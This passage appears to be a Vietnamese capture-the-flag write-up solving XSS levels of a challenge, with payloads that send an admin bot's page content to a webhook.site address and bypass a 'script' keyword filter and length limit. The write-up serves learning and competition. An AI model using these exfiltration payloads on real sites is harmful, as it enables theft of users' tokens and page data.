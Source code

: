 ```html
<script>console.log(encodeURIComponent(document.body.innerHTML))</script>
```


![image](https://hackmd.io/_uploads/ryscUCYt1e.png)

Và cuối cùng ta sẽ build được một payload sau để lấy content của web

```html
<script>fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?c='+encodeURIComponent(document.body.innerHTML))</script>
```

![image](https://hackmd.io/_uploads/BJq-v0Ftke.png)

Gửi cho admin để vào và ta có purell_token của level 0

![image](https://hackmd.io/_uploads/BkL8D0KKkx.png)



Submit purell-token{gu4u_of_exf1l} và mình có part 1 của flag : lactf{1_4m_z3_

![image](https://hackmd.io/_uploads/BJ-_DAKFkx.png)

Đến với level 1, thì mình thấy rằng trang web sẽ filter chữ script và payload không được quá 150 kí tự. 
![image](https://hackmd.io/_uploads/rJ_pPCYF1x.png)

Vì payload của level 0 cũng không quá 150 nên mình có thể bypass bằng Script hoặc img onerror như sau

```html 
<img src=x onerror=fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?c='+encodeURIComponent(document.body.innerHTML)) />
```

Khi đó ta sẽ lấy được token từ admin bot

![image](https://hackmd.io/_uploads/SyaS_CYK1l.png)

Submit purell-token{scr7ptl355_m3n4c3} và mình có part 2 của flag : b3s7_x40ss_

Đến level 2 web sẽ cấm giống level 1 nhưng cấm luôn cả chữ on nên mình không thể xài img onerror được nữa.

![image](https://hackmd.io/_uploads/S1-_ORttJx.png)

Nhưng mình lại có thể xài Script như đã đề cập ở trên và chúng ta có payload như sau : 

```html
<Script>fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?c='+encodeURI(document.body.innerHTML))</Script>
```

Khi đó ta sẽ lấy được token của level 2

![image](https://hackmd.io/_uploads/BJ1g50tFyl.png)
